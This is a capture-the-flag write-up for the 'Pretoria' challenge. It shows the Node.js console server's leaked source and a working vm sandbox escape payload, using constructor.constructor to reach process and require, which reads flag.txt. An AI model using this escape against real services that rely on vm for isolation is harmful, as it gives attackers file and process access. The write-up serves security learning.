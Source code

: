 # Pretoria:
## Introduction:
This challenge was a misc challenge, titled `Pretoria`, with a goal to escape a jail.

## Deep in the challenge:
Connecting to the given server and port `misc-chall.ingehack.ingeniums.club 6002` with `nc` give us the following output:
```
 Welcome to IngeHack ctf, guess the challenge Maker!
 Gooood luck pwner
IngeHackSuperSecureConsole> 
```
So it's starts with asking us to guess the maker of the challenge, and as we know, these challenges are made by `Team seven`, so let's try entring thier usernames:
```
IngeHackSuperSecureConsole> Akram
Wrong answer! Akram is Nooob
IngeHackSuperSecureConsole> 
```
So `Akram` didn't make this challenge, let's try `vvxhid`:
```
IngeHackSuperSecureConsole> vvxhid
const vm = require("vm");
const readline = require("readline");
const fileSystem = require("fs");
const path = require("path");

const readLine = readline.createInterface({
  input: process.stdin,
  output: process.stdout,
  prompt: "IngeHackSuperSecureConsole> ",
});

console.log(" Welcome to IngeHack ctf, guess the challenge Maker!");
console.log(" Gooood luck pwner");

readLine.prompt();
readLine
  .on("line", (line) => {
    switch (line.trim()) {
      case "vvxhid":
        const filePath = path.join(__dirname, "server.js");
        const data = fileSystem.readFileSync(filePath, "utf8");
        console.log(data);
        break;
      case "oussama":
        console.log("Nice try!");
        break;
      case "philomath213":
        console.log("Hmm?");
        break;
      case "Akram":
        console.log("Wrong answer! Akram is Nooob");
        break;
      case "Fa2y": // clear the screen
        process.stdout.write("\u001B[2J\u001B[0;0f");
        break;
      case "roacult": // quit
        readLine.close();
        break;
      default:
        try {
          const res = vm.runInContext(line, vm.createContext({}));
          console.log(res);
        } catch {
          console.log("Something went wrong");
        }
        break;
    }
    readLine.prompt();
  })
  .on("close", () => {
    console.log("Have a great day Pwner!");
    process.exit(0);
  });

IngeHackSuperSecureConsole> 
```

As we see, entering `vvxhid` gave us the source code for this challenge, which was read from the `server.js` file.

As we can see, the input we send is tested if it's one of `team seven`'s members, if it's not, it uses `vm` to create a new environment and executes whatever we give it, trying to enter `5*7` gave us the following result:
```
IngeHackSuperSecureConsole> 7*5
35
IngeHackSuperSecureConsole> 
```

So our goal is to find a way to inject  our code in order to read the `flag.txt` file.

Searching for `vm` injections, we came across this command:
```
(this.constructor.constructor('const ForeignFunction = global.constructor.constructor; const process1 = ForeignFunction("return process")(); const require1 = process1.mainModule.require; const console1 = require1("console"); const fs1 = require1("fs"); console1.log(fs1.statSync("."));'))()
```
 ... it returns the following result :
```
Stats {
  dev: 95,
  mode: 16877,
  nlink: 2,
  uid: 0,
  gid: 0,
  rdev: 0,
  blksize: 4096,
  ino: 1808793,
  size: 4096,
  blocks: 8,
  atimeMs: 1622695891344.2834,
  mtimeMs: 1622687478000,
  ctimeMs: 1622695891340.2832,
  birthtimeMs: 1622695891340.2832,
  atime: 2021-06-03T04:51:31.344Z,
  mtime: 2021-06-03T02:31:18.000Z,
  ctime: 2021-06-03T04:51:31.340Z,
  birthtime: 2021-06-03T04:51:31.340Z
}
undefined
IngeHackSuperSecureConsole> 
```

As we examine the injection, we find that it re-imports all the necessary packages in order to get the status of the current folder.

As we said before, the `vm` creates a new environment, and because of that, we have to re-`require` all the packages we need.

Changing the code we have to :
```
(this.constructor.constructor('const ForeignFunction = global.constructor.constructor; const process1 = ForeignFunction("return process")(); const require1 = process1.mainModule.require; const console1 = require1("console"); const fs1 = require1("fs"); console1.log(fs1.readFileSync("./flag.txt", "utf8"));'))()
```
we get the following:
```
IngeHack{fr0m_n0d3_2_n0d3_w3_h0p_t1ll_w3_3sc4p3}
undefined
IngeHackSuperSecureConsole>
```

and here is the flag !